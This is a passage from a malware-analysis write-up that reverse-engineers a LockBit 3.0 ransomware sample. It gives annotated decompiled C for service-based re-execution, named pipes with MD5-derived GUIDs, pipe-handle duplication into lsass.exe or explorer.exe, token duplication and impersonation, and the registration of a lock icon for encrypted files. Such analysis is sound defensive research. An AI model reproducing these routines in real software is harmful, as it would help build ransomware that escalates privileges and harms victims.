  if (local_c != 0) {
    (*GlobalFree)(local_c);
  }
  return local_8;                        // Return 1 if matching argument was found
}
```
.
	Based on the functionality, we will rename the function to `has_matching_hashed_argument`:
	<div align="center"></div>
  
- elevated_reexecution_with_pipe_argument (FUN_004131e8):
	This function is executed in systems joined to a domain, and also with the flag active from the function `prepare_payload_and_config_data_func()`. It extracts its own executable filename (without extension) by using [`PathFindFileNameW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathfindfilenamew) and [`PathFindExtensionW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathfindextensionw), then registers a temporary service using that name. The service logic (`run_service_ipc_pipe_injection()`) creates a named pipe with an obfuscated GUID, waits for a connection, and reads input data from a supposedly created pipe on another stage of the malware execution into `DAT_004259c0`.
	Then it is used as an **argument in a reconstructed command line** along with the current executable. The function finally calls `spawn_interactive_session_with_pipe_args()`, which builds a full command line: `"lockbit3_0.exe <data_from_pipe>"`, duplicates the current process token, assigns it to the active session, and spawns a new process in the `WinSta0\Default` desktop.
	As seen previously, LockBit appears to support hidden execution arguments. Therefore, this function behaves as a stealthy re-execution mechanism that launches the malware again with a specific argument retrieved from the custom pipe `\\\\.\\pipe\\{GUID}`.
	
```c
void FUN_004131e8(void)
{
  // Attempt to retrieve domain controller name.
  // If the system is not domain-joined, function is not executed
  iVar1 = get_domain_controller_name_func(&DAT_004258f0);
  if (iVar1 != 0) {
    // Get full process path (e.g., C:\Folder\lockbit3_0.exe)
    uVar2 = retrieve_process_path_from_peb();
    // Extract just the executable file name (e.g., lockbit3_0.exe)
    uVar2 = (*PathFindFileNameW)(uVar2);
    // Copy filename into static buffer
    (*wcscpy)(&DAT_00425970, uVar2);
    // Remove extension (.exe → null terminator), result: "lockbit3_0"
    puVar3 = (undefined2 *)(*PathFindExtensionW)(&DAT_00425970);
    *puVar3 = 0;
    // Set up SERVICE_TABLE_ENTRY:
    //  - DAT_004258e8 -> service name = stripped executable name
    //  - _DAT_004258ec -> handler = run_service_ipc_pipe_injection
    DAT_004258e8 = &DAT_00425970;
    _DAT_004258ec = run_service_ipc_pipe_injection;
    // Start service control dispatcher (this thread becomes service host)
    (*StartServiceCtrlDispatcherW)(&DAT_004258e8);
    // Once the service ends, spawn a visible payload in user session
    spawn_interactive_session_with_pipe_args((undefined2 *)&DAT_004259c0);
    // Open handle to Service Control Manager (with full access rights)
    local_8 = (*OpenSCManagerW)(0, 0, 0xf003f);
    if (local_8 != 0) {
      // Open handle to the previously registered service ("lockbit3_0")
      local_c = (*OpenServiceW)(local_8, &DAT_00425970, 0xf003f);
      if (local_c != 0) {
        // Clear SERVICE_STATUS buffer
        (*memset)(local_28, 0, 0x1c);
        // Send control code to stop the service
        (*ControlService)(local_c, 1, local_28);
        // Delete the service from the SCM database
        (*DeleteService)(local_c);
        // Close service handle
        (*CloseServiceHandle)(local_c);
      }
      // Close SCM handle
      (*CloseServiceHandle)(local_8);
    }
  }
  return;
}
```
We can see the path retrieved:
<div align="center"></div>

And then the filename is extracted with [`PathFindFileNameW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathfindfilenamew):
<div align="center"></div>

And then we get the pointer to the executable extension, which is `.exe`, with [`PathFindExtensionW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathfindextensionw) and null terminate it to only get the filename:
<div align="center"></div>

Based on the functionality, the function will be renamed to `elevated_reexecution_with_pipe_argument`:
<div align="center"></div>

.
	- run_service_ipc_pipe_injection (FUN_00413168):
		The function `FUN_00413168` is the main entry point when the malware is executed as a service. It registers a control handler with `RegisterServiceCtrlHandlerW` using a dummy function that ignores stop commands. Then, it sets the service status to `SERVICE_RUNNING` and notifies the system.
		Once running, it calls `create_named_pipe_with_guid_and_inject()`, which creates an obfuscated named pipe based on the computer and domain name, generates a GUID, creates the pipe, optionally reads data, and injects the pipe handle into a privileged process (**explorer.exe** or **lsass.exe**).
		After executing the payload logic, the function updates the service state to `SERVICE_STOPPED` and reports it, making the service appear to have completed normally.
```c
void FUN_00413168(void)
{
  // Register service control handler function with filename as the register name
  local_8 = (*RegisterServiceCtrlHandlerW)(DAT_004258e8, empty_return_function);
  if (local_8 != 0) {
    // Zero out SERVICE_STATUS structure (28 bytes)
    (*memset)(&local_24, 0, 0x1c);
    // SERVICE_STATUS.dwServiceType = SERVICE_WIN32_OWN_PROCESS (0x10)
    local_24 = 0x10;
    // SERVICE_STATUS.dwCurrentState = SERVICE_RUNNING (0x4)
    local_20 = 4;
    // Report status: running
    iVar1 = (*SetServiceStatus)(local_8, &local_24);
    if (iVar1 != 0) {
      // Build an obfuscated named pipe path using the computer and domain name,
	  // generate a GUID, create the pipe, optionally read data from a client,
	  // and inject the pipe handle into a privileged process for IPC.
    create_named_pipe_with_guid_and_inject(&DAT_004258f0, &DAT_004259c0, 0x200, 1);
      // Update service state to SERVICE_STOPPED (0x1)
      local_20 = 1;
      // Report status: stopped
      (*SetServiceStatus)(local_8, &local_24);
    }
  }
  return;
}
```
.
		This service-based entry point enables the malware to execute its payload under the guise of a legitimate Windows service. By silently creating an obfuscated named pipe and injecting it into a privileged process, it establishes a stealthy communication channel while avoiding detection through proper service status reporting. 
		Based on this,the function will be renamed to `run_service_ipc_pipe_injection`:
		<div align="center"></div>
			- empty_return_function (FUN_00413160):
				The function does nothing; it just returns without doing anything.
```c
void FUN_00413160(void)
{
  return;
}
```
.
				We will rename the function to `empty_return_function`:
				<div align="center"></div>
			- create_named_pipe_with_guid_and_inject (FUN_00412af8):
				This function creates a **named pipe** using an obfuscated name derived from the computer name and a domain controller name (previously stored at `DAT_004258f0`). It formats the full UNC path using decrypted strings, generates a unique **MD5-based GUID** from that path continued and finished at `generate_md5_guid_from_ipc_path()`, and constructs the final named pipe path. The pipe is then created with [`CreateNamedPipeW`](https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-createnamedpipew) and, if requested, the function waits for a client to connect with [`ConnectNamedPipe`](https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-connectnamedpipe) and reads any provided data with [`ReadFile`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) from the named pipe into `param_2` (`DAT_004259c0`). If creation is successful and the pipe did not previously exist, its handle is passed to `inject_named_pipe_handle_lsass_or_explorer()` for duplication into a privileged process.
```c
undefined4 FUN_00412af8(undefined4 param_1, int param_2, int param_3, int param_4)
{
  local_8 = 0;                        // Default return value = failure
  local_10 = 0;                       // Clear last error
  local_c = 0x20;                     // Size for GetComputerNameW buffer
  iVar1 = (*GetComputerNameW)(local_a0, &local_c); // Get computer name
  if (iVar1 != 0) {
    // Encoded string: "\\\\%s.%s\\"
    local_60[6] = 0xefa0a05c;
    local_60[7] = 0xef8fa025;
    local_60[8] = 0xefd9a02e;
    local_60[9] = 0xefa0a073;
    local_60[10] = 0xeffca000;
    decode_n_blocks_w_mask_func(local_60 + 6, 5); //Decode obfuscated format string
	// Format "\\\\{COMPUTERNAME}.{DOMAIN_NAME}\\"
    (*_swprintf)(local_1f0, local_60 + 6, local_a0, param_1); 
    (*_wcslwr)(local_1f0);                // Lowercase the result
    generate_md5_guid_from_ipc_path(local_1f0, local_f0); // Get GUID from UNC path
    // Encoded base pipe name: "\\\\.\\pipe\\%s"
    local_60[0] = 0xefa0a05c;
    local_60[1] = 0xefa0a02e;
    local_60[2] = 0xef95a070;
    local_60[3] = 0xef99a070;
    local_60[4] = 0xefd9a05c;
    local_60[5] = 0xeffca073;
    decode_n_blocks_w_mask_func(local_60, 6);    // Decode second format string
    (*_swprintf)(local_2b0, local_60, local_f0);//Format pipe "\\\\.\\pipe\\{GUID}"
    local_28 = 1;      // SECURITY_ATTRIBUTES.nLength
    local_27 = 0;
    local_26 = 4;
    local_24 = 0;
    local_20 = 0;
    local_1c = 0;
    local_18 = 0;
    local_60[0xb] = 0xc; // Pipe attributes (12 bytes)
    local_30 = &local_28; // SECURITY_ATTRIBUTES.lpSecurityDescriptor
    local_2c = 1;         // SECURITY_ATTRIBUTES.bInheritHandle = TRUE
    // Create the named pipe
    local_14 = (*CreateNamedPipeW)(
      local_2b0,        // "\\\\.\\pipe\\{GUID}" – Unique pipe name for IPC
      3,                // PIPE_ACCESS_DUPLEX – Read and write access
      0,                /// PIPE_TYPE_BYTE – Byte-oriented pipe
	  0xff,             // Max instances = 255
	  0, 0,             // Output/Input buffer size = 0 (default)
	  0xffffffff,       // Timeout = infinite
	  local_60 + 0xb    // SECURITY_ATTRIBUTES – likely custom config
    );
    if (local_14 != -1) { // Pipe successfully created
      local_10 = LastErrorValue;
      local_8 = 1;                                    // Pipe created successfully
      if (param_4 != 0) {
        // If requested, wait for a client to connect
        iVar1 = (*ConnectNamedPipe)(local_14, 0);     // Wait for client to connect
        if ((iVar1 == 0) && (LastErrorValue != 0x217)) {
          return local_8;            // If error and not ERROR_PIPE_CONNECTED, exit
        }
        if ((param_2 != 0) || (param_3 != 0)) {
          (*ReadFile)(local_14, param_2, param_3, &local_c, 0); // Read client data
        }
      }
      if (local_10 != 0xb7) {
	    // If the pipe did not already exist (not ERROR_ALREADY_EXISTS)
	    // Duplicate named pipe handle into privileged process (explorer.exe or 
	    // lsass.exe) to allow indirect communication between process
        inject_named_pipe_handle_lsass_or_explorer(local_14); 
      }
    }
  }
  return local_8;  // Return success or failure
}
```
.
				The first deobfuscated string with `decode_n_blocks_w_mask_func()` is `\\\\%s.%s\\`:
				<div align="center"></div>
				Put the computer name retrieved with [`GetComputerNameW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getcomputernamew) into the placeholder of the deobfuscated string with  [`_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170) and also at the second placeholder is the `DAT_004258f0`, which was stored previously, the domain controller name. In my case, I'm not in a domain, so it's empty, but the string will look like this `\\{COMPUTERNAME}.{DOMAIN_NAME}\`:
				<div align="center"></div>
				Convert the string to lowercase `\\{computername}.{domain_name}\`:
				<div align="center"></div>
				Then with the function `generate_md5_guid_from_ipc_path()` gets a unique GUID `{C393595E-5ED5-563A-8404-7420562708CC}`:
				<div align="center"></div>
				And then deobfuscates a new string with `decode_n_blocks_w_mask_func()` that is `\\.\pipe\%s`:
				<div align="center"></div>
				And then with  [`_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170) at of the deofuscated string, the pipe, replaces the placeholder with the unique GUID `\\.\pipe\{C393595E-5ED5-563A-8404-7420562708CC}`: 
				<div align="center"></div>
				Based on the functionality we will rename it to `create_named_pipe_with_guid_and_inject`:
				<div align="center"></div>
				- generate_md5_guid_from_ipc_path (FUN_00412cc0):
					The function generates a unique GUID string based on the MD5 hash of the [`Universal Naming Convention (UNC)`](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) path `\\{computername}.{domain_name}\IPC$`. First, it deobfuscates the format string `%s_IPC$` with the function `decode_n_blocks_w_mask_func()`, replaces the placeholder with the full UNC path passed as parameter, `param_1`, with the function [`_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170), and then calculates its MD5 digest. Then, it decrypts a second format string in the form of a GUID: `{%08X-%04X-%04X-%02X%02X-%02X%02X%02X%02X%02X%02X}`. Finally, it inserts specific bytes from the MD5 digest into this format and writes the resulting GUID string into `param_2`.
```c
void FUN_00412cc0(undefined4 param_1, undefined4 param_2)
{
  // Decrypt obfuscated format string used for swprintf (%s_IPC$)
  local_e4[0x1a] = 0xef8fa025;
  local_e4[0x1b] = 0xefb5a05f;
  local_e4[0x1c] = 0xefbfa050;
  local_e4[0x1d] = 0xeffca024;
  decode_n_blocks_w_mask_func(local_e4 + 0x1a, 4);
  // Decrypt format string ("%s") and put in placeholder 
  // param_1 which results in "\\\\{computername}.{DOMAIN_NAME}\\_IPC$" 
  (*_swprintf)(local_1e4, local_e4[0x1a], param_1);     
  (*MD5Init)(&local_6c); // Initialize MD5 context
  len = (*wcslen)(local_1e4); // Get length of input string for hashing
  (*MD5Update)(local_6c, local_1e4, len * 2);  // Update MD5 with input buffer
  (*MD5Final)(local_6c);; // Finalize MD5 hash
  // Decrypt format string used to build final path
  // {%08X-%04X-%04X-%02X%02X-%02X%02X%02X%02X%02X%02X}
  local_e4[0] = 0xefd9a07b;
  ...
  local_e4[0x19] = 0xeffca000;

  uStackY_208 = 0x412e0a;                        // Dummy constant for decoding
  decode_n_blocks_w_mask_func(local_e4, 0x1a);   // Decrypt all 0x1a (26) DWORDs
  // Push individual MD5 digest bytes to stack for string formatting
  uStackY_208 = (uint)local_7;
  uStackY_20c = (uint)local_8;
  uStackY_210 = (uint)local_9;
  uStackY_214 = (uint)local_a;
  uStackY_218 = (uint)local_b;
  uStackY_21c = (uint)local_c;
  // Build pointer chain to pass arguments to swprintf
  ....
  // Final call to swprintf with reconstructed format and MD5 digest values
  pcVar2 = _swprintf(local_e4[0]);
  *(undefined4 *)(iVar5 - 0x12) = 0x412e52;
  (*pcVar2)();   // Build final formatted output
  return;
}
```
.
				Deobfuscate the encoded string with `decode_n_blocks_w_mask_func()` which results in `%s_IPC$`:
				<div align="center"></div>
				Then in the placeholder it puts `param_1` `\\\\{computername}-.{domain_name}\\` into the deobfuscated string with [`_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170) which results in `\\\\{computername}.{domain_name}\\_IPC$`:
				<div align="center"></div>
				Get the hash of the previous string with the MD5 functions:
				<div align="center"></div>
				Now it deobfuscates a bigger chunk of data, which is `{%08X-%04X-%04X-%02X%02X-%02X%02X%02X%02X%02X%02X}`:
				<div align="center"></div>
				Then from the hash it calculated before, it takes individual bytes from it and puts it at the deobfuscated string placeholders, which in my case results in `{C393595E-5ED5-563A-8404-7420562708CC}` to be stored in `param_2`:
				<div align="center"></div>
				Based on the functionality, we will rename the function to `generate_md5_guid_from_ipc_path`:
				<div align="center"></div>
				- inject_named_pipe_handle_lsass_or_explorer (FUN_00412954):
					This function attempts to **duplicate a named pipe handle** into the high-privileged process **explorer.exe**, or with **lsass.exe** in case it doesn't find it. It begins by enabling the `SeDebugPrivilege` through [`RtlAdjustPrivilege`](https://ntdoc.m417z.com/rtladjustprivilege), which is required to manipulate other processes with elevated privileges. Next, it locates the target process PID by using the hashed name with the function `find_pid_by_hashed_processname()`.
					Once the target process is identified, the function opens it with [`NtOpenProcess`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-ntopenprocess), requesting [`PROCESS_DUP_HANDLE`](https://doxygen.reactos.org/d2/d3d/include_2xdk_2pstypes_8h_source.html#l00022) access. The main action takes place with [`ZwDuplicateObject`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-zwduplicateobject), which duplicates the named pipe handle into the target process. This allows the low-privileged process to interact with the named pipe within the high-privileged process, enabling potential privilege escalation or IPC injection. The function returns `1` if the handle is successfully duplicated, or `0` on failure.
```c
int FUN_00412954(undefined4 param_1)
{
  (*RtlAdjustPrivilege)(0x14, 1, 0, local_c); // Enable SeDebugPrivilege
  // Try to find PID for "explorer.exe" (hashed as 0x3eb272e6) or "lsass.exe" (-0x3e0595a6)
  pvVar1 = (void *)find_pid_by_hashed_processname(0x3eb272e6);
  if ((pvVar1 != 0) ||
      (pvVar1 = (void *)find_pid_by_hashed_processname(-0x3e0595a6), pvVar1 != 0)) {
    // Setup OBJECT_ATTRIBUTES for NtOpenProcess
    local_20 = 0;
    local_3c = 0x18;                          // Length of OBJECT_ATTRIBUTES
    local_38 = 0;
    local_34 = 0;
    local_30 = 0;
    local_2c = 0;
    local_28 = 0;
    local_24 = pvVar1;                        // Target PID in CLIENT_ID
    // Open target process with PROCESS_DUP_HANDLE
    iVar2 = (*NtOpenProcess)(local_14, 0x40, &local_3c, &local_24);
    if (iVar2 == 0) {
      local_24 = ClientId.UniqueProcess;      // Use returned process ID
      local_20 = 0;
      local_3c = 0x18;
      local_38 = 0;
      local_34 = 0;
      local_30 = 0;
      local_2c = 0;
      local_28 = 0;
      // Open current process (caller)
      iVar2 = (*NtOpenProcess)(&local_18, 0x40, &local_3c, &local_24);
      if ((iVar2 == 0) &&
          // Duplicate param_1 (pipe handle) into the target process
          (iVar2 = (*ZwDuplicateObject)(local_18, param_1, local_14[0],
                                        local_1c, 0, 0, 3), iVar2 == 0)) {
        local_8 = 1;                          // Success
      }
    }
  }
  // Cleanup: close handles
  if (local_18 != 0) {
    (*ZwClose)(local_18);
  }
  if (local_14[0] != 0) {
    (*ZwClose)(local_14[0]);
  }
  return local_8;                    // Return 1 if duplication succeeded, else 0
}
```
.
					If we debug it, it first attempts to get **explorer.exe** with the function `find_pid_by_hashed_processname()` searching by the hash:
					<div align="center"></div>
					If it fails, then it tries with **lsass.exe** instead:
					<div align="center"></div>
					Based on the functionality, we will rename it to `inject_named_pipe_handle_lsass_or_explorer`:
					<div align="center"></div>
	- spawn_interactive_session_with_pipe_args (FUN_00412f58):
		This function builds a full command line including the current executable and an additional argument, `DAT_004259c0` that has the content read from the custom named pipe `\\.\pipe\{GUID}`, then duplicates with [`ZwDuplicateToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-zwduplicatetoken) the current process token, retrieved with [`NtOpenProcessToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntopenprocesstoken) as a primary token. It assigns that token to the active console session with [`NtSetInformationToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntsetinformationtoken) by assigning the session ID to the duplicated token, and sets up a proper user environment and desktop (`"WinSta0\Default"`) with [`CreateEnvironmentBlock`](https://learn.microsoft.com/en-us/windows/win32/api/userenv/nf-userenv-createenvironmentblock). It impersonates the token in the current thread and finally spawns a new process in the active desktop session using [`CreateProcessAsUserW`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasuserw). This allows the malware to launch its payload in the user’s visible session with inherited privileges.
```c
void FUN_00412f58(undefined2 *param_1)
{
  // Get full path to current EXE
  puVar2 = (undefined2 *)retrieve_process_path_from_peb(); 
  (*wcscpy)(local_2b4, puVar2);       // Copy full path to buffer
  (*PathRemoveFileSpecW)(local_2b4);  // Remove filename → get directory only
  local_6c4 = 0x22;                   // Set initial character as `"` (quote)
  iVar3 = (*wcslen)(puVar2);          // Get length of full EXE path
  puVar4 = puVar2; puVar1 = auStack_6c2;
  for (; iVar3 != 0; iVar3--) {       // Copy EXE path into command line buffer
    *puVar1 = *puVar4;
    puVar4++; puVar1++;
  }
  puVar4 = puVar1 + 1;
  *puVar1 = 0x22;                    // Add closing quote `"`, "C:\dir\malware.exe"
  *puVar4 = 0x20;                    // Add space before argument
  iVar3 = (*wcslen)(param_1);        // Get length of argument passed to function
  for (; iVar3 != 0; iVar3--) {      // Append the argument to the command line
    puVar4++; *puVar4 = *param_1; param_1++;
  }
  *puVar4 = 0;                       // Null-terminate the final command line
  // Open token of current process (0xffffffff) with TOKEN_ALL_ACCESS (0x2000000)
  iVar3 = (*NtOpenProcessToken)(0xffffffff, 0x2000000, &local_8);   
  if (iVar3 == 0) {
    // Prepare OBJECT_ATTRIBUTES to duplicate the token
	// SECURITY_QUALITY_OF_SERVICE.ImpersonationLevel = SecurityImpersonation
    local_ac[8] = 0xc;  
    // SECURITY_QUALITY_OF_SERVICE.ContextTrackingMode = SecurityDynamicTracking
    local_ac[9] = 3; 
    local_84 = 0; local_83 = 0;
    local_80 = 0x18; // OBJECT_ATTRIBUTES.Length
    local_7c = 0; local_78 = 0; local_74 = 0; local_70 = 0;
    local_6c = local_ac + 8;  // SECURITY_QUALITY_OF_SERVICE pointer
	// Duplicate current token as Primary Token
    iVar3 = (*ZwDuplicateToken)(local_8, 0x2000000, &local_80, 0, 1, &local_c);    
    if (iVar3 == 0) {
      local_14 = get_active_console_session_id(); // Get active console session ID
      // Assign session ID to duplicated token
      iVar3 = (*NtSetInformationToken)(local_c, 0xc, &local_14, 4); 
      if (iVar3 == 0) {
	    // Create user environment block with duplicated token
        (*CreateEnvironmentBlock)(&local_10, local_c, 1);           
        (*memset)(&local_68, 0, 0x10);   // Zero out PROCESS_INFORMATION
        (*memset)(local_58, 0, 0x44);    // Zero out STARTUPINFO
        local_58[0] = 0x44;              // STARTUPINFO.cb = sizeof(STARTUPINFO)
        // Deobfuscate "WinSta0\\Default" into STARTUPINFO.lpDesktop
        local_ac[0] = 0xef95a057;
        local_ac[1] = 0xefafa06e;
        local_ac[2] = 0xef9da074;
        local_ac[3] = 0xefa0a030;
        local_ac[4] = 0xef99a044;
        local_ac[5] = 0xef9da066;
        local_ac[6] = 0xef90a075;
        local_ac[7] = 0xeffca074;
        decode_n_blocks_w_mask_func(local_ac, 8); // Result: "WinSta0\\Default"
        // Impersonate the duplicated token in current thread
        duplicate_and_apply_token_to_thread(local_c, 0xfffffffe);   
        // Create process as user in the desktop "WinSta0\\Default"
        iVar3 = (*CreateProcessAsUserW)(
          local_c,                // Primary token
          puVar2,                 // Application name (e.g., "C:\dir\malware.exe")
          &local_6c4,             // Command line with arguments and quotes
          0, 0,                   // Process and thread security attributes = NULL
          0,                      // Inherit handles = FALSE
          0x420,// Creation flags = CREATE_UNICODE_ENVIRONMENT | CREATE_NEW_CONSOLE
          local_10,               // Environment block
          local_2b4,              // Current directory
          local_58,               // STARTUPINFO (includes lpDesktop)
          &local_68               // PROCESS_INFORMATION
        );
        if (iVar3 != 0) {
          (*ZwClose)(local_68);   // Close process handle
          (*ZwClose)(local_64);   // Close thread handle
        }
        (*DestroyEnvironmentBlock)(local_10); // Free environment block
      }
      (*ZwClose)(local_c);   // Close duplicated token
    }
    (*ZwClose)(local_8);     // Close original token
  }
  return;
}
```
.
		If we debug it with x32dbg, we can see how it retrieves the path:
		<div align="center"></div>
		Then remove the executable filename to get the directory path where the malware is:
		<div align="center"></div>
		And also puts the filename path between quotes:
		<div align="center"></div>
		We can see that the obfuscated content is `WinSta0\Default` the default input desktop for the interactive window station, as it can be seen in [`Microsoft Documentation`](https://learn.microsoft.com/en-gb/windows/win32/winstation/window-station-and-desktop-creation):
		<div align="center"></div>
		Based on the functionality, the function will be renamed to `spawn_interactive_session_with_pipe_args()`:
		<div align="center"></div>
		- get_active_console_session_id (FUN_004016b8):
			The function returns the value of `INTERNAL_TS_ACTIVE_CONSOLE_ID (0x7FFE02D8)` which can be seen at [`ReactOS Documentation`](https://doxygen.reactos.org/d6/d9e/include_2reactos_2wine_2winternl_8h_source.html#l01875), which holds the session ID of the active console session.
```c
undefined4 FUN_004016b8(void)
{
  return _DAT_7ffe02d8;
}
```
.
			The function will be renamed to `get_active_console_session_id`:
			<div align="center"></div>
		- duplicate_and_apply_impersonation_token_to_thread (FUN_0040b3c0):
			This function attempts to impersonate a security token (`param_1`) in a specific thread (`param_2`). If `param_1` is null, it treats it as a success and returns `true`. Otherwise, it duplicates the given token as an impersonation token with [`TOKEN_IMPERSONATE`](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-rights-for-access-token-objects) (`0x4`) and [`TOKEN_QUERY`](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-rights-for-access-token-objects) (`0x8`) access, as can be seen in the [`ReactOS Documentation`](https://doxygen.reactos.org/da/d86/xdk_2setypes_8h_source.html#l00927), using [`ZwDuplicateToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-zwduplicatetoken), and assigns it to the thread via [`ZwSetInformationThread`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-zwsetinformationthread) by specifying [`THREADINFOCLASS`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ps/psquery/class.htm) to `ThreadInformationClass`. If both steps succeed, it returns `true`; otherwise, `false`. This makes the current thread run under the security context of another user or process to continue with privilege escalation by token theft.
```c
bool FUN_0040b3c0(int param_1, undefined4 param_2)
{
  bVar2 = false;                       // Default return: false (failure)
  if (param_1 == 0) {
    bVar2 = true;                      // If token handle is null, return true
  }
  else {
    // Initialize OBJECT_ATTRIBUTES (length = 0x18, others zeroed)
    local_20 = 0x18;          // OBJECT_ATTRIBUTES.Length = 24
    local_1c = 0;             // OBJECT_ATTRIBUTES.RootDirectory = NULL
    local_18 = 0;             // OBJECT_ATTRIBUTES.ObjectName = NULL
    local_14 = 0;             // OBJECT_ATTRIBUTES.Attributes = 0
    local_10 = 0;             // OBJECT_ATTRIBUTES.SecurityDescriptor = NULL
    local_c  = 0;             // OBJECT_ATTRIBUTES.SecurityQualityOfService = NULL
    // Duplicate the token with TOKEN_IMPERSONATE | TOKEN_QUERY access (0xC)
    iVar1 = (*ZwDuplicateToken)(
      param_1,                         // Source token handle
      0xc,                             // Desired access: impersonate + query
      &local_20,                       // OBJECT_ATTRIBUTES
      0,                               // EffectiveOnly = false
      2,                               // TokenType = TokenImpersonation (2)
      &local_8                         // Out: duplicated token handle
    );
    if (iVar1 == 0) {                  // ZwDuplicateToken succeeded
      // Set the duplicated token as the impersonation token for the thread
      iVar1 = (*ZwSetInformationThread)(
        param_2,          // Thread handle
        5,                // ThreadInformationClass = ThreadImpersonationToken
        &local_8,         // Pointer to impersonation token handle
        4                 // ThreadInformationLength = sizeof(HANDLE)
      );
      bVar2 = iVar1 == 0; // Return true if ZwSetInformationThread succeeded
      (*ZwClose)(local_8);            // Close the duplicated token handle
    }
  }
  return bVar2;                        // Return success or failure
}
```
.
			Based on the functionality, the function will be renamed to `duplicate_and_apply_impersonation_token_to_thread`:
			<div align="center"></div>
      
So after analysing the functions, it checked at `DAT_00425131` if the flag of `LockBit` is different from zero, retrieved from `prepare_payload_and_config_data_func()`, to be executed, and if the previous DC logon token is not zero, at `DAT_00425168`, and there it's an actual token. 
Then with `is_running_user_token_as_system()` if the process is running as `SYSTEM` then it checks with `has_matching_hashed_argument()` if it had a specific argument, which, if it was the case, then with `elevated_reexecution_with_pipe_argument()` reexecutes the process with elevated permissions by duplicating and impersonating tokens, with a new argument retrieved from a custom obfuscated pipeline. And concluded by terminating the process with [`NtTerminateProcess`](https://ntdoc.m417z.com/ntterminateprocess).
<div align="center"></div>


Finally, it executes two last functions that we will continue analysing, where `FUN_0040c3f8()` receives as a parameter `DAT_00425178`, which was the custom extension for the files encryption:
<div align="center"></div>


- drop_n_register_custom_icon_for_encrypted_files (FUN_0040c3f8):
	This function decrypts the embedded payload at DAT_0041ba1c with `decrypt_payload_xor_custom_func`. The decrypted data is then decompressed using `some_aplib_decompressor_func` in the allocated memory pointer returned by `allocate_data_processheap_antidbg`. Once the payload is decompressed (0x3AEE bytes), the function resolves the common application data path (`C:\ProgramData`) by calling `ShGetSpecialFolderPathW` with [`CSIDL_COMMON_APPDATA`](https://learn.microsoft.com/en-us/windows/win32/shell/csidl) based on [`ReactOS Documentation`](https://doxygen.reactos.org/dd/d0b/dll_2win32_2shell32_2wine_2shellpath_8c_source.html#l01466). It ensures a trailing backslash with `add_backslash_unicodestring_missing` and concatenates the extension we got at the function `get_file_extension_guid_md5_b64()` using `wcscat`. After constructing the full path, the string `.ico` is appended manually to generate the output filename. The file is created with [`CreateFileW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilew), and the decompressed icon is written with [`WriteFile`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-writefile). Then, the function creates a registry key under `HKEY_LOCAL_MACHINE` using [`RegCreateKeyExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regcreatekeyexw) with the same file extension as the name used for the icon (`C:\ProgramData\AFfGduKAp`), which will be `HKEY_LOCAL_MACHINE\AFfGduKAp`. It sets the default value, `(Default)`, to (`AFfGduKAp`) of the key to the filename using [`RegSetValueExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexw), which is a common trick to register a file association with an icon handler if we look at [`Microsoft Documentation`](https://learn.microsoft.com/en-us/windows/win32/shell/how-to-create-icon-handlers). Then to complete it, it will configure the icon shown by the system; it creates a `DefaultIcon` subkey, `HKEY_LOCAL_MACHINE\AFfGduKAp\DefaultIcon` , appending `\DefaultIcon` to the previously created key, and sets its default value, `(Default)`, to the full path of the dropped `.ico` file with another call to [`RegSetValueExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexw).
	Finally, [`ShChangeNotify`](https://learn.microsoft.com/en-us/windows/win32/api/shlobj_core/nf-shlobj_core-shchangenotify) is called with `SHCNE_ASSOCCHANGED` (`0x8000000`), `SHCNF_FLUSH` (`0x1000`), and `SHCNF_IDLIST` (`0x0000`), if we look at [`ReactOS Documentation`](https://doxygen.reactos.org/d8/d57/shlobj_8h_source.html#l01898), to notify the Windows shell that icon associations have changed, ensuring the custom icon is immediately reflected in Explorer. This entire routine is used to visually associate encrypted files with the dropped icon, giving LockBit encrypted files a distinctive lock image. The function returns `1` on success and `0` otherwise, and all temporary buffers are deallocated using `rtl_freeheap_antidbg_func`.
```c
undefined4 FUN_0040c3f8(int param_1)
{
  ...
  local_8 = 0;                            // Default return value = failure
  if (DAT_0042512c != '\0') {            // Check if payload drop is enabled
    local_1c = 0;
	// Decrypt embedded payload
    pbVar2 = decrypt_payload_xor_custom_func(&DAT_0041ba1c); 
